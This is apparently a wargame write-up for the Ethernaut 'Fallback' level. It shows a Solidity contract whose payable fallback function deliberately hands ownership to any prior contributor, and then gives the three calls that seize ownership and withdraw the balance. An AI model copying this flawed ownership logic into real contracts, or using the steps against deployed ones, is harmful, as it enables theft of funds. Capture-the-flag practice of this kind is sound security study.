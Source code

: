## 1. Fallback

Goals for this exercise are:

- Claim ownership of the contract
- Reduce its balance to 0


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  fallback() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
~~~

<br/>

Plan is to call `contribute()` function which would add our address to `contributions` dictionary. 
With that we can call `fallback()` function and become `owner` address. 

<br/>

Needed calls were:

- `contract.contribute({value: 100})`
- `contract.sendTransaction({value: 1})`
- `contract.withdraw()`

